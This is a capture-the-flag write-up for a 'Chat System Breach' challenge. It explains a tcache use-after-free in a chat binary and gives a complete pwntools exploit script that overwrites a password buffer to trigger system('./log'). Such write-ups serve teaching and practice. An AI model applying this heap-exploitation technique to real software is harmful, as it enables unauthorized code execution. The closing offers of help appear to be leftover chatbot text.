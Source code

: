 # Chat System Breach - Writeup

---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Challenge Overview

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Code Walkthrough

```c
new_chat():
  malloc(0x208) → struct
  malloc(0x40)  → name_chunk
  store pointer in struct->[1]

delete_chat():
  free(name_chunk)
  prompt (Y/N)
  if N → struct stays, name_chunk freed to tcache

password_alloc():
  s1 = malloc(0x40)  // reuses freed name_chunk

rename_chat():
  read input into struct->[1] (now s1)

verify_password():
  if (!strncmp(s1, "53cr37_c0d3", 11))
    system("./log");
```

---

## Exploit Script (Pwntools)

```python
from pwn import *

elf = ELF('./securechat')
p   = process(elf.path)

def new_chat(idx, name, msg):
    p.sendlineafter('> ', '1')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('Name of the chat: ', name.ljust(0x40, b'\x00'))
    p.sendafter('reply ASAP :', msg)

def delete_chat(idx, confirm):
    p.sendlineafter('> ', '2')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('(Y/N):', confirm)

def rename_chat(idx, new_name):
    p.sendlineafter('> ', '3')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    p.sendlineafter('> ', '7')

# 1) Create chat at index 0
new_chat(0, b'A'*8, b'HELLO')

# 2) Free name chunk but cancel deleting chat
delete_chat(0, b'N')

# 3) Allocate password buffer (s1) reusing freed chunk
p.sendlineafter('> ', '5')

# 4) Overwrite password buffer with correct secret
rename_chat(0, b'53cr37_c0d3')

# 5) Trigger verification to pop shell/log
verify_password()

p.interactive()
```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

---

## Additional Notes

- The key to exploitation is **tcache freelist reuse** via **use-after-free**.
- Cancelling the chat deletion keeps the struct valid, enabling us to overwrite `s1`.
- A solid understanding of **heap behavior** and **tcache internals** is essential here.

---

## Image Gallery

| Step | Description                         | Image                  |
| ---- | ----------------------------------- | ---------------------- |
| 1    | Check binary type with `file`       | ![Alt text](img/1.png) |
| 2    | Checksec (packed) shows protections | ![Alt text](img/2.png) |
| 3    | UPX unpacking in action             | ![Alt text](img/3.png) |
| 4    | Confirm unpacked format with `file` | ![Alt text](img/4.png) |
| 5    | Re-run `checksec` after unpacking   | ![Alt text](img/5.png) |

---

Let me know if you want:

- Heap/tcache diagrams
- Animated GIF of the exploit running
- Printable PDF version

Happy pwning!

---

If you want, I can help you generate that GIF or any other media for your README!
